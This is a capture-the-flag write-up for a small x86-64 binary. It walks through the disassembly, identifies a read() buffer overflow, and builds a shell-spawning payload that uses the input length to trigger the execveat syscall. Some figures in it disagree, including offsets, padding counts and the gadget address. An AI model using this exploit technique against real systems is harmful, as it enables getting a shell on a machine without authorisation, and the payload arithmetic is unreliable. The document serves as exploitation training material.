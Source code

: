 # End

There is no `end.c` for us to see, so the only thing we can do is to `objdump` the disassembly code:

    Disassembly of section .text:

    00000000004000b0 <_start>:
      4000b0:	48 31 c0             	xor    %rax,%rax
      4000b3:	48 31 db             	xor    %rbx,%rbx
      4000b6:	48 31 c9             	xor    %rcx,%rcx
      4000b9:	48 31 d2             	xor    %rdx,%rdx
      4000bc:	48 31 ff             	xor    %rdi,%rdi
      4000bf:	48 31 f6             	xor    %rsi,%rsi
      4000c2:	4d 31 c0             	xor    %r8,%r8
      4000c5:	4d 31 c9             	xor    %r9,%r9
      4000c8:	4d 31 d2             	xor    %r10,%r10
      4000cb:	4d 31 db             	xor    %r11,%r11
      4000ce:	4d 31 e4             	xor    %r12,%r12
      4000d1:	4d 31 ed             	xor    %r13,%r13
      4000d4:	4d 31 f6             	xor    %r14,%r14
      4000d7:	4d 31 ff             	xor    %r15,%r15
      4000da:	48 31 ed             	xor    %rbp,%rbp
      4000dd:	e8 10 00 00 00       	callq  4000f2 <_end>
      4000e2:	b8 3c 00 00 00       	mov    $0x3c,%eax
      4000e7:	48 31 ff             	xor    %rdi,%rdi
      4000ea:	48 31 f6             	xor    %rsi,%rsi
      4000ed:	48 31 d2             	xor    %rdx,%rdx
      4000f0:	0f 05                	syscall 

    00000000004000f2 <_end>:
      4000f2:	48 81 ec 28 01 00 00 	sub    $0x128,%rsp
      4000f9:	48 89 e6             	mov    %rsp,%rsi
      4000fc:	ba 48 01 00 00       	mov    $0x148,%edx
      400101:	0f 05                	syscall 
      400103:	48 81 c4 28 01 00 00 	add    $0x128,%rsp
      40010a:	c3                   	retq   
      
 Wow....this problem is a pure assembly code problem.
  
 Everything is `xor`ed in the beginning so, all of them are 0.
  
 After every register is zeroed, it calls `end`.
  
 What `end` does is :
  
    * rsp = rsp - 0x128
    * rsi = rsp - 0x128
    * edx = rdx = 0x148
    * sycall
 
And we can see `rax = 0` and `rdi = 0`, so `end` is a system call for `read()`.
 
    end() = read(0, rsp - 0x128, 0x148)
    
This is definitely a buffer overflow question.
 
However, what can we do? I tried a lot to overflow, such as jumping back to read again, but failed.
 
Then, when staring at `gdb-peda`, I found something interesting:
 
   rax = the length of input string
   
So, I tried to control the length to 59 to call `sys_execve` but still failed, since `/bin/sh\0` is not in rdi.
 
After that, I thought of: Maybe the input size is the key to solving this problem.
 
And.....vola! It is indeed!
 
First 0x128 + 8 = 0x130 and 0x140 is our range of overflow. Converting them into decimal, they and 304 and 336. So, let's take a look at system call table at that range.
 
   ![end](end.jpg)
   
This look really alike `execve` so maybe this is it.

After reading the `execveat manual`, I found this:

   ![end2](end2.jpg)
   
So, since what we are entering is `/bin/sh\0` , an abosulute directory, `dfd` is ignored. This means, rdi is ignored and all we have to do is put `/bin/sh\0` in rsi.

Of course, it is easy since rsi is the starting point of the user input. Therefore our payload will begin with `/bin/sh\0` then follow up with a padding of 304 - 17 = 287 bytes. 

    *   NOTE: rdx must be cleared since it is a parameter for execveat and in case of error.
    
Seeing the note I wrote, yes, we need to zero out rdx. We can find the method at `0x400ed: xor rdx, rdx` and this will be our return address.

Finally, our payload will be:

```python
   p.sendline(b"/bin//sh\x00" + b"\x90"*287 + p64(0x4000ed) + b"\x90"*17)
```
